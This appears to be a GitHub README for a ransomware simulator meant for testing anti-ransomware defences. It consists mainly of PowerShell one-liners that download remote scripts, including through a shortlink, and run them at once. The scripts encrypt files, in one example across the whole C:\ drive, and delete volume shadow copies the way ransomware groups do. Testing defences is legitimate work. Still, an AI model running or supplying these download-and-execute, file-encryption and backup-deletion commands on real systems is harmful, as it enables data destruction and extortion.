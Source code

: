 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

You may use shortlinks as well, example: 

PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# AutoIt
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

RansomSIM.exe /encrypt C:\
  
Decryption - 

RansomSIM.exe /decrypt C:\

# Simulator for shadow copy manipulation
an aggregation of technique as implemented by ransomware groups to delete shadow copies, usually is performed before the ransomware encryption

Example ('All','VssDeleteAll', 'WmiDeleteAll', 'VssResize', 'DeleteEach', 'CimDelete', 'NativeDelete'):

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode All -Volume 'C:\\'

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode VssDeleteAll -Volume 'C:\\'

